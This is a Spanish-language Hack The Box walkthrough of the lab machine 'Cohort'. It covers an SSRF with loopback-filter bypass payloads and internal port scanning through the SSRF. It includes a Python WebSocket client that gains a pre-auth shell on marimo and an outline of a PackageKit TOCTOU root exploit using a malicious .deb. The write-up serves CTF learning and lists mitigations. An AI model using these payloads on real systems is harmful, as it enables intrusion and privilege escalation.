


# Cohort — Walkthrough Técnico

> Hack The Box · Máquina **Cohort** · Dificultad **Difícil (Hard)** · Sistema **Linux (Ubuntu 24.04)**
> Autor: **Javier Rioseco Rodriguez** · Fecha: 09 de noviembre de 2026

> [!note] Aviso
> Documento personal de práctica en ciberseguridad ofensiva sobre una máquina de laboratorio de
> HackTheBox, con fines educativos y de investigación defensiva. No debe emplearse contra sistemas
> sin autorización explícita. Las IPs, credenciales y flags se han **redactado** (`<TARGET_IP>`,
> `<REDACTED>`) por ser valores de laboratorio efímeros; HTB pide no publicar flags en claro.

---

## 1. Resumen ejecutivo

**Cohort** es una máquina Linux de dificultad **Hard**. El acceso inicial se obtiene encadenando
**cuatro pasos** a partir de una **SSRF** en un endpoint de validación, que permite descubrir
servicios internos en loopback y filtrar un vhost secreto. Ese vhost expone a **marimo** (un notebook
reactivo) vulnerable a una **RCE preautenticada** (CVE-2026-39987) a través del WebSocket de su
terminal. La escalada a root se consigue mediante una **condición de carrera TOCTOU** en
**PackageKit** (CVE-2026-41651), que permite a un usuario sin privilegios instalar paquetes
arbitrarios.

### Ficha de la máquina

| Campo | Valor |
|---|---|
| **Sistema** | Ubuntu 24.04 (OpenSSH 9.6p1) |
| **Dificultad** | Hard |
| **Dominio** | `*.cohort.htb` (SAN del certificado) |
| **Vector foothold** | SSRF → escaneo interno → fuga de config → marimo RCE |
| **Vector root** | CVE-2026-41651 (PackageKit TOCTOU LPE) |
| **Usuario inicial** | `uid=1000(marimo)` |

### Cadena de ataque



| # | Fase |
| --- | --- |
| 1 | **SSRF** en `POST /api/v1/validate` con bypass del filtro loopback |
| 2 | Escaneo interno vía SSRF: puertos 5000 (API) y 8888 (marimo) |
| 3 | Fuga de config en `/status`: vhost secreto hacia marimo |
| 4 | **CVE-2026-39987**: RCE pre-auth vía WebSocket del terminal marimo |
| 5 | **CVE-2026-41651**: PackageKit TOCTOU → root |

---

## 2. Reconocimiento

### 2.1 Escaneo de puertos

Un escaneo completo con Nmap revela tres puertos abiertos:

```bash
nmap -p- --min-rate 5000 -sV -sC -oA cohort <TARGET_IP>
```

```text
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13
80/tcp  open  http     nginx 1.24.0
443/tcp open  ssl/http nginx 1.24.0
| ssl-cert: Subject: CN=cohort.htb
|_ Subject Alternative Name: DNS:*.cohort.htb
```

| Puerto | Servicio | Detalle |
|---|---|---|
| 22/tcp | SSH | OpenSSH 9.6p1 (Ubuntu 24.04) |
| 80/tcp | HTTP | nginx 1.24.0 — redirige a HTTPS |
| 443/tcp | HTTPS | nginx 1.24.0 — SPA "Cohort Analytics" |

> [!tip] Pista del certificado
> El SAN `DNS:*.cohort.htb` anticipa que la máquina usa **vhosts por nombre**. Guardar ese comodín en
> mente: más adelante aparecerá un vhost secreto que no está en ningún enlace público.

### 2.2 Superficie web y API

El sitio es una SPA ("Cohort Analytics") con JavaScript ofuscado. Detrás de nginx hay un backend
Python basado en `http.server`. El fuzzing de rutas de la API revela únicamente tres endpoints reales:

- `GET /api/v1/health` y `GET /api/v2/health` — comprobación de estado.
- `POST /api/v1/validate` — recibe un parámetro `url` (vector SSRF).

---

## 3. Foothold — cadena de 4 pasos

### 3.1 SSRF y evasión del filtro de loopback

El endpoint `/api/v1/validate` toma una URL y la solicita desde el servidor. Implementa un filtro que
intenta bloquear referencias a loopback, pero es evadible con representaciones alternativas de
`127.0.0.1`:

- Octal: `0177.0.0.1`
- Forma abreviada: `127.1`
- IPv6 mapeado a IPv4: `[::ffff:127.0.0.1]`

```http
POST /api/v1/validate HTTP/1.1
Host: cohort.htb
Content-Type: application/json

{"url": "http://0177.0.0.1:8888/"}
```

> [!warning] Por qué funciona
> El filtro compara la cadena contra una lista negra de formas "conocidas" de loopback (`127.0.0.1`,
> `localhost`) en lugar de **resolver la IP y comprobar el rango** antes de la petición. Octal,
> abreviada e IPv6-mapeado representan la misma dirección y esquivan la comparación textual.

### 3.2 Escaneo interno vía SSRF

Usando la SSRF como proxy ciego, se itera sobre los puertos de loopback observando las diferencias de
respuesta (código, longitud, tiempo). Se descubren dos servicios que no están expuestos al exterior:

- `127.0.0.1:5000` — API interna.
- `127.0.0.1:8888` — **marimo 0.20.4** (notebook reactivo).

> [!note] ATT&CK
> Esta fase es un **T1046 — Network Service Discovery** realizado íntegramente a través de la SSRF:
> el atacante nunca toca los puertos internos directamente, los enumera por reflexión.

### 3.3 Fuga de configuración

nginx define una `location /status` accesible solo desde localhost. Al alcanzarla con la SSRF
(`http://127.1/status`) se revela el vhost secreto `82a8afd3ad5.cohort.htb`, que nginx proxya hacia
marimo incluyendo la actualización a WebSocket.

```text
GET /status HTTP/1.1  (vía SSRF → http://127.1/status)

upstream marimo -> 127.0.0.1:8888;
server_name 82a8afd3ad5.cohort.htb;
proxy_set_header Upgrade $http_upgrade;   # WebSocket habilitado
```

### 3.4 CVE-2026-39987 — RCE pre-auth en marimo

marimo ≤ 0.20.4 expone el WebSocket del terminal en `wss://.../terminal/ws` **sin validar la
autenticación**. Conectando a ese WebSocket se obtiene un PTY interactivo con los privilegios del
servicio. Se usa el vhost secreto como cabecera `Host` y un pequeño cliente WebSocket en Python para
lanzar la shell:

```python
import asyncio, websockets

URL  = 'wss://cohort.htb/terminal/ws'
HDRS = {'Host': '82a8afd3ad5.cohort.htb'}

async def sh():
    async with websockets.connect(URL, extra_headers=HDRS, ssl=True) as ws:
        await ws.send('id; cat /home/*/user.txt\n')
        while True:
            print(await ws.recv())

asyncio.run(sh())
```

Resultado: `uid=1000(marimo)` en **cohort**.

> [!tip] user.txt
> Primera flag conseguida (valor redactado).
> ```text
> user.txt → <REDACTED>
> ```

---

## 4. Enumeración para escalada

Antes de encontrar el vector válido, se descartaron de forma sistemática los caminos habituales. Se
documentan para dejar constancia del proceso:

| Candidato | Resultado |
|---|---|
| **sudo 1.9.15p5** | Probado CVE-2025-32463 (chroot). El paquete `1.9.15p5-3ubuntu5.24.04.2` ya incluye el parche (confirmado en el changelog). **Descartado.** |
| **SUID / capabilities / cron / timers / world-writable** | Todo estándar. **Descartado.** |
| **Sysmon for Linux + auditd + laurel** corriendo como root | Instrumentación defensiva (la máquina registra al atacante), sin CVE propio ni ficheros escribibles. **Descartado.** |
| **/opt/marimo/venv** escribible | Solo lo consume su propio servicio. **Descartado.** |
| **Credenciales reutilizables** | El token de marimo no sirve como contraseña de sistema. **Descartado.** |
| **/var/backups/hygiene** | Red herring (vacío). **Descartado.** |

Con `pspy` se observaba una tarea periódica que autentica por PAM como root, pero el proceso es
demasiado efímero para capturarlo de forma fiable. El vector real resulta ser **independiente de esa
tarea**.

> [!note] Detalle de blue team
> Que la máquina tenga **Sysmon for Linux + auditd + laurel** no es decorativo: es una máquina Hard
> que registra activamente al atacante. Ruido innecesario (fuerza bruta, escaneos ruidosos) juega en
> contra. Encaja con el ángulo *purple team* del resto del sitio: cada acción deja rastro.

---

## 5. Escalada a root — CVE-2026-41651

### 5.1 La vulnerabilidad

**CVE-2026-41651** es una vulnerabilidad de escalada local de privilegios presente en **PackageKit
1.0.2 a 1.3.4**. Permite que un usuario normal, sin privilegios, instale paquetes arbitrarios. El
fallo es una **condición de carrera TOCTOU**: el flag de la transacción puede sobrescribirse después
de la comprobación de autorización y antes de que la ejecución se despache. Se apoya en tres errores
arquitectónicos en el manejo de transacciones de PackageKit vía D-Bus.

La ventana de carrera se da entre la comprobación (*Time Of Check*) sobre el flag `only-trusted` y el
despacho de la transacción (*Time Of Use*): si se reemplaza el flag en ese intervalo, PackageKit
instala un paquete no firmado como root.



### 5.2 Explotación

El PoC público automatiza la carrera: prepara una transacción D-Bus, lanza la condición de carrera en
bucle para sobrescribir el flag de transacción, y dispara la instalación de un paquete `.deb`
malicioso cuyo script de postinstalación se ejecuta como root.

```text
# flujo del PoC (CVE-2026-41651)
1. construir .deb con postinst que da root (p.ej. SUID a bash)
2. abrir transacción vía D-Bus (org.freedesktop.PackageKit)
3. bucle de carrera: sobrescribir transaction flag (TOCTOU)
4. despachar InstallFiles() → postinst corre como root
5. /bin/bash -p → uid=0
```

Tras ganar la carrera (normalmente en pocos intentos siguiendo la guía), se obtiene una shell root y
la bandera final.

> [!danger] root.txt
> Root conseguido (valor redactado).
> ```text
> root.txt → <REDACTED>
> ```

---

## 6. Estimación de tiempo (con guía)

Tiempo aproximado para reproducir la máquina siguiendo este write-up paso a paso, sin partir de cero:

| # | Fase | Tiempo |
|---|---|---|
| 1 | Recon (Nmap + mapear SPA/API) | 5–10 min |
| 2 | SSRF + bypass loopback | 10–15 min |
| 3 | Escaneo interno + fuga de config | 10 min |
| 4 | RCE marimo (WebSocket) | 15–25 min |
| 5 | Root PackageKit (TOCTOU) | 10–20 min |
| | **TOTAL aproximado** | **~1 – 1,5 h** |

**Factores que más afectan:** acertar con el `Host` del vhost secreto en el handshake WebSocket (fase
4) y el número de reintentos de la carrera TOCTOU (fase 5). Sin guía, la misma máquina es un trabajo
de varias horas a un par de días, acorde con su dificultad Hard.

---

## 7. Mitigaciones

- **SSRF:** validar el destino con *allow-list* de hosts, **resolver la IP** y rechazar rangos
  privados/loopback tras la resolución (evitar el bypass por representaciones alternativas).
- **marimo:** actualizar por encima de 0.20.4 y no exponer el terminal; exigir autenticación en el
  WebSocket.
- **Config nginx:** no filtrar nombres de vhost sensibles en `/status`; restringir por red además de
  por host.
- **PackageKit:** actualizar a una versión parcheada (> 1.3.4) y restringir la política polkit de
  instalación para usuarios no privilegiados.

---

## 8. Lecciones aprendidas

- 🤔 **Por qué funcionó la cadena:** cada fallo era pequeño, pero encadenados dan de web pública a
  root. La SSRF no valía por sí sola; su valor fue **ver lo que no estaba expuesto**.
- ❌ **Por qué fallaron otros enfoques:** sudo ya estaba parcheado y los vectores "clásicos" (SUID,
  cron, credenciales) eran señuelos. Perseguir la tarea PAM efímera con `pspy` era un callejón sin
  salida; el vector real (PackageKit) era **independiente**.
- 🔍 **Indicadores que apuntaban al camino:** el comodín `*.cohort.htb` del certificado (vhost
  oculto), el parámetro `url` del endpoint de validación (SSRF) y la versión exacta de PackageKit.
- 🛠️ **Herramientas útiles:** Nmap, Burp (para iterar la SSRF), un cliente WebSocket propio en Python
  y el PoC de la carrera TOCTOU.
- 🚀 **Qué haría diferente:** automatizar antes el escaneo interno por SSRF en vez de iterar a mano, y
  preparar el cliente WebSocket con el `Host` correcto desde el primer intento.

---
*— Javier Rioseco Rodriguez —*
